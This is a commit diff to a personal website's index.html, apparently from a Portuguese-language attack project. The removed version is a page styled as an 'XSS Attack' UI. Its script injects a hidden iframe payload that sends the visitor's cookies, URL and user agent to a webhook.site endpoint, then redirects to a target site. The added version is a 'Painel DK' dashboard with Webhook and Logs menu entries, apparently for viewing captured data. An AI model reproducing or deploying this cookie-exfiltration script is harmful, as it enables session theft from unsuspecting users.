

Before and after one commit to SrDark222/00001111, a website: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,108 +1,36 @@
-<!DOCTYPE html><html lang="pt-br">
+<!DOCTYPE html>
+<html lang="pt-br">
 <head>
-  <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>XSS Attack Neon UI</title>
-  <style>
-    * {
-      margin: 0;
-      padding: 0;
-      box-sizing: border-box;
-      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-    }body {
-  height: 100vh;
-  display: flex;
-  align-items: center;
-  justify-content: center;
-  background: linear-gradient(135deg, #0a0a1f, #000010);
-  color: #ccefff;
-  overflow: hidden;
-}
-
-.container {
-  background: rgba(10, 10, 30, 0.6);
-  backdrop-filter: blur(10px);
-  border-radius: 16px;
-  padding: 30px 40px;
-  border: 1px solid #33c0ff;
-  box-shadow: 0 0 20px rgba(51, 192, 255, 0.3), 0 0 60px rgba(170, 0, 255, 0.2);
-  max-width: 400px;
-  width: 90%;
-  text-align: center;
-  position: relative;
-}
-
-.container::before {
-  content: '';
-  position: absolute;
-  top: -50%;
-  left: -50%;
-  width: 200%;
-  height: 200%;
-  background: radial-gradient(circle, rgba(255,255,255,0.05) 10%, transparent 70%);
-  animation: rotate 20s linear infinite;
-  z-index: 0;
-}
-
-@keyframes rotate {
-  0% { transform: rotate(0deg); }
-  100% { transform: rotate(360deg); }
-}
-
-h1 {
-  font-size: 1.8rem;
-  margin-bottom: 10px;
-  color: #ccefff;
-  text-shadow: 0 0 6px #33c0ff;
-}
-
-p {
-  font-size: 0.9rem;
-  color: #a8c7dd;
-  margin-bottom: 20px;
-}
-
-.glow-bar {
-  height: 4px;
-  background: linear-gradient(to right, #33c0ff, #9933ff, #00f6ff);
-  border-radius: 4px;
-  animation: flow 3s linear infinite;
-}
-
-@keyframes flow {
-  0% { background-position: 0% 50%; }
-  100% { background-position: 100% 50%; }
-}
-
-  </style>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>Painel DK</title>
+  <link rel="stylesheet" href="css/style.css">
 </head>
 <body>
-  <div class="container">
-    <h1>Executando Payload XSS...</h1>
-    <p>Seu ataque está em curso. Aguarde redirecionamento automático.</p>
-    <div class="glow-bar"></div>
-  </div>  <script>
-    const siteAlvo = decodeURIComponent(new URLSearchParams(window.location.search).get("site")) || "https://example.com";
-    const webhook = "https://webhook.site/seuWebhookAqui";
-    const payload = `<script>
-      fetch('${webhook}', {
-        method: 'POST',
-        headers: { 'Content-Type': 'application/json' },
-        body: JSON.stringify({
-          cookie: document.cookie,
-          location: window.location.href,
-          userAgent: navigator.userAgent
-        })
-      });
-    </script>`;const iframe = document.createElement("iframe");
-iframe.srcdoc = payload;
-iframe.style.display = "none";
-document.body.appendChild(iframe);
 
-setTimeout(() => {
-  window.location.href = siteAlvo;
-}, 10000);
+  <!-- MENU TOP -->
+  <nav class="menu-top">
+    <a href="index.html">Principal</a>
+    <a href="webhook.html">Webhook</a>
+    <a href="logs.html">Logs</a>
+    <a href="config.html">Configuração</a>
+  </nav>
 
-  </script>
+  <!-- LOADING -->
+  <div id="loading-screen">
+    <div class="loader-card">
+      <h2>Carregando Painel...</h2>
+      <p>Estamos carregando seus recursos, aguarde um momento.</p>
+      <div class="progress-bar"><div class="progress-fill"></div></div>
+    </div>
+  </div>
+
+  <!-- CONTEÚDO PRINCIPAL -->
+  <main class="conteudo">
+    <h1>Bem-vindo ao Painel DK</h1>
+    <p>Escolha uma das opções acima para continuar.</p>
+  </main>
+
+  <script src="js/script.js"></script>
 </body>
 </html>
```
